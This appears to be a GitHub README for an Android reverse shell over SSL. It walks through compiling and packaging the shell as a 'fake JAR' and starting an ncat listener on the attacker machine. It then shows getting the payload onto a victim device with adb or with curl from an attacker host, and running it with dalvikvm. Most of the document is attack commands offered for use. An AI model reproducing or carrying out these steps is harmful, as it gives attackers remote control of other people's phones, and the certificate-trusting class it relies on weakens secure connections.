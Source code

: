 ## Android Reverse Java Shell using SSL Encryption

## On Attacker machine - Linux for example -
### (you need android sdk installed and build-tools also) 

#### Compile Java source code in bytecode (if fails for "class error not supported", change the release!)
`javac --release 17 Shell.java TrustAllCertificates.java`

#### Convert to DEX format 
`~/Library/Android/sdk/build-tools/33.0.0/d8 Shell.class TrustAllCertificates.class`

#### Create fake JAR file
`zip reverse_ssl.jar classes.dex`

#### Set Listener (USE NCAT!)
`ncat -nlvp 1337`

## On victim Android device:
`adb push reverse_ssl.jar /sdcard` (if Android Debug Tools is enabled)

or you can just use dalvikvmfrom Termux:

`curl http://attackingmachine:9999/reverse_ssl.jar -o /sdcard/reverse_ssl.jar`<br/>
`cd /system/bin/ && ./dalvikvm -cp /sdcard/reverse_ssl.jar Shell`

(pay attention to final "Shell" this must be same class name used before, otherwise it fails!)

You can of course create a pure .apk package and sign it using Android Studio or apktool and apksigner.

## Credits

Inspired from: https://gist.github.com/FrankSpierings/e330e3aea3152f816c202b883887dd60
